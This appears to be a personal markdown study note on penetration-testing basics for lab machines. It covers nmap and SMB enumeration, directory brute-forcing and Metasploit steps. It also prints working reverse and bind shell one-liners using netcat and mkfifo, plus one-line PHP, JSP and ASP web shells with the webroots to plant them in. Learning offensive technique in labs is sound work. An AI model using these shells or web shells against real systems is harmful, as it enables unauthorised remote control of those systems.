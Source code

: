 # Pentesting Basics

## Getting a shell
- **types of shell**
	- Reverse Shell
	- Bind Shell
	- Web Shell
- **Netcat**
	- interacting with TCP/UDP ports.
	- **Banner Grabbing** `nc -nv 10.129.42.253 21` or `nmap -sV --script=banner <target>`

## Service Scanning
### Nmap
- `-sC` for more details `-sV` for version `-p-` to scan all ports 
- to run custom script `nmap --script <script name> -p<port> <host>`.
### Attacking Network Services
- **Banner Grabbing** `nmap -sV --script=banner <target>`  
- **FTP**: Nmap scan anonymous authentication is enabled
#### SMB (Server Message Block)
- a prevalent protocol on Windows machines
- some SMB versions may be vulnerable to RCE exploits such as [EternalBlue](https://www.avast.com/c-eternalblue).
- `nmap --script smb-os-discovery.nse -p445 10.10.10.40`
##### Shares
- SMB allows users and administrators to share folders and make them accessible remotely by other users
- `smbclient -N -L \\\\10.129.42.253` when `-L` fir list and `-N` suppresses the password prompt
	- `smbclient \\\\10.129.42.253\\users` connect as guest
	- `smbclient -U bob \\\\10.129.42.253\\users` connect as user bob

## Web Enumeration
- `whatweb 10.129.117.36` 
### Gobuster (or ffuf)
- for dirs/files
```bash
gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
- for subdomains
```bash
# we can use this repo to dowload wordList
git clone https://github.com/danielmiessler/SecLists
# now Gobuster
gobuster dns -do inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.tx
```
### Web Enumeration Tips (info sources)
- **Banner Grabbing / Web Server Headers**
- **Whatweb**: by command `shell-session
 whatweb 10.10.10.121`
 - **Certificates**
 - **robots.txt**: instruct search engine like google
 - **source code**: by `ctrl+u`
 - 
## Public Exploits
### Finding Public Exploits
- using google with `exploit`  word
- **searchsploit (from exploitDb)**, or other databases like: [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/),, [Vulnerability Lab](https://www.vulnerability-lab.com/).

### Metasploit Primer (`msfconsole`)
- Metasploit is a powerful pentesting framework with 
	- built-in exploits
	- reconnaissance/verification scripts
	- the Meterpreter shell
	- post-exploit/pivoting utilities.
- `msfconsole` command to run **Metasploit**
	1 - `search exploit SMB` command to for SMB vuln  
	2 - `use exploit/windows/...` use the exploit 
	3 - `show options` to display and config exploit options
	4 - `set RHOSTS 10.10.10.40` to set params (**RHost** for target and **LHost** of our attacker like `eth0`)
	5- `check` to check if our target is vulnerable
	6- `run` or `exploit` to run the exploit in the end	

# Types of Shells
- to remote access: `ssh` for linux and `WinRm` for windows 

Type of Shell | Method of Communication
|--|--|
`Reverse Shell` |Connects back to our system and gives us control through a reverse connection.
`Bind Shell` | Waits for us to connect to it and gives us control once we do.
`Web Shell`  | Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.
## Reverse Shell
- most used
- target connects to us on the listening port
- **netcat** listener on our machine  `nc -lvnp 1234`
- [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) : reverse shell commands, example :
	```bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
	```
- **lose connection:** have to use the initial exploit again
## Bind Shell
- we connect to the target on the listening port.
- [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) : Bind shell commands, example :
	 ```bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
	```
- use **netcat** to connect ` nc 10.10.10.1 1234 `

## Upgrading TTY
- we will use the `python/stty`
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- `ctrl+z` to background our shell and get back on our local terminal
- input the command `stty raw -echo`
- input the command `fg` 
- click `Enter`
- fixing size:
	- on our local shell
		 ```bash
		ab2gbl1@htb[/htb]$ echo $TERM
		xterm-256color
		
		ab2gbl1@htb[/htb]$ stty size
		67 318
		 ``` 
	- then on the victim shell
		```bash
		www-data@remotehost$ export TERM=xterm-256color
		www-data@remotehost$ stty rows 67 columns 318
		```

## Web Shell

```bash 
# php
<?php system($_REQUEST["cmd"]); ?>
# jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
# asp
<% eval request("cmd") %>
```
- we should put our script `shell.php` on the **webroot**

Web Server | Default Webroot
|--|--|
`Apache` | /var/www/html/
`Nginx` | /usr/local/nginx/html/
`IIS`  | c:\inetpub\wwwroot\
`XAMPP` | C:\xampp\htdocs\

then we can access the shell 
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3NzU0NDg4MTUsLTkyODc3MDU1NSwxOD
k3OTI4NTE2LC0xMTE4MjIwNDMzLDExMzUwNTI2ODQsLTExNzk3
NTEyMTUsLTE5NjQ5NDM4ODgsMTQ2MjE1MTkzLDY4MTMzMTc0OS
w5MjIyNDU1MDcsMTQxNjU5OTA3MiwtNTcyODQ4MDQxLDE1MzUy
MzQ5NjEsNDA4NDI4OTg1LC0xNDc0MjAzNjI5LC0xMDAxMzcwMD
QyLC0xNTkzOTA0MjMyLDY4MjcwMjY1OCwtNTc4MzIxMTkwLDgx
MTA2OTAxNV19
-->